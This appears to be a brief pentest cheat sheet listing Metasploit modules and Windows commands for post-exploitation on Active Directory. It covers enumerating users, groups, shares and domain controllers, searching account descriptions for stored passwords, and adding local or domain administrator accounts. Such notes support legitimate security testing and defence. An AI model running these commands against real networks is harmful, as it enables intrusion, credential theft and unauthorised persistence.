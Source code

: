 # Active Directory

**Description:** This entry describes how to perform post exploitation actions on Active Directory

**Requirements:** required software

## Active Directory commands

```
post/window/gather/enum_ad_computers
```

Find computer on the domain very stealth

```
post/windows/gather/enum_ad_service_principal_names
```

Find sql servers etc running services

```
post/window/gather/enum_ad_user_comments
```

User comments contains passwords for some

```
net view /domain
```

List domain association

```
net view /domain:<domain>
```

List hosts on domain. Same as network neighborhood

```
net view /domain "Domain Computers"
```

List all domain computers

```
net view \\<computername>
```

List shares on a computer

```
net user /domain
```

List all users in domain

```
net group /domain
```

List all groups in domain

```
net group /domain "<group name>"
```

List users in group on domain

```
net user /domain "<user>"
```

List information about domain user including group membership

```
nltest /dclist:<domain>
```

List all domain controllers on domain

```
nltest /domain_trust
```

Map domain trust

```
net localgroup /domain "administrators"
```

List all domain controller administrators

```
net user username password /add
```

Add local user account

```
net localgroup administrators <user> /add
```

Add local user to local administrator group

```
net user username password /add /domain
```

Add new user account to domain

```
wmic useraccount
```

List all local accounts with SID

```
Get-AdUser -Filter * -Properties SamAccountName, description | select SamAccountName, description | select -expand $_.results
```

Get descriptions from AD to look for passwords stored in AD account. Can be done from any domain user

  
## References
* none